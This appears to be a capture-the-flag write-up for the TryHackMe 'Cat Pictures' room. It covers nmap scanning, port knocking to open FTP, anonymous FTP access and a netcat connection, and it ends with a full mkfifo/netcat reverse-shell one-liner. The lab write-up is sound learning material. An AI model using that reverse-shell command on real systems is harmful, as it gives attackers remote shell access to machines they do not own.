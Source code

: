 # Cat Pictures THM Room

The first step to this room is proper enumeration. I used the good old tried and true `nmap -sV <MACHINE-IP>` once again to check open ports.

![Screenshot 2025-03-26 213108](https://github.com/user-attachments/assets/209342f8-07f3-4262-88f3-7f38f3d9c5a6)

port 21 is filtered, we'll get to that a little later. For now I checked out what was on port 8080 and it was a forum. I tried to find a version number or something
like that, I was thinking that an exploit was available due to an outdated version of the software phpBB. Upon further investigation though, there is a clue on the forum that was posted.
It reads, "Knock knock! Magic numbers: 1111, 2222, 3333, 4444." 

![Screenshot 2025-03-26 213600](https://github.com/user-attachments/assets/74c3cfcf-be13-4c4c-8188-469c72e2c84d)

This is a clue related to port knocking, previously something I didn't even know existed. Port knocking is esssentially a way to open a port through a series of specially crafted requests.
The author here gives us a clue, `1111, 2222, 3333, 4444`. I installed `knockd` onto my linux machine and got to work. Trying `knock <MACHINE-IP> 1111 2222 3333 4444` didn't
work, I had to try a few other combinations before I could get the FTP port open again. 

Once the FTP port was finally opened, I connected using `ftp <MACHINE-IP>`. I used the name anonymous and used ls to find what directories were available. I stumbled across note.txt
and used the get command to download it onto my host machine.

![Screenshot 2025-03-26 214205](https://github.com/user-attachments/assets/67cb69ac-72c1-49a5-9f30-c3f97ebe6107)

Reading the note I read that we should connect to port 4420, and that the password is sardinethecat. I used netcat to connect.

![Screenshot 2025-03-26 214642](https://github.com/user-attachments/assets/2517ab15-8f22-4bca-804b-3da5130353cb)

I then used `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <MACHINE-IP 4444 >/tmp/f` to create a reverse shell because the CD command didn't work. 
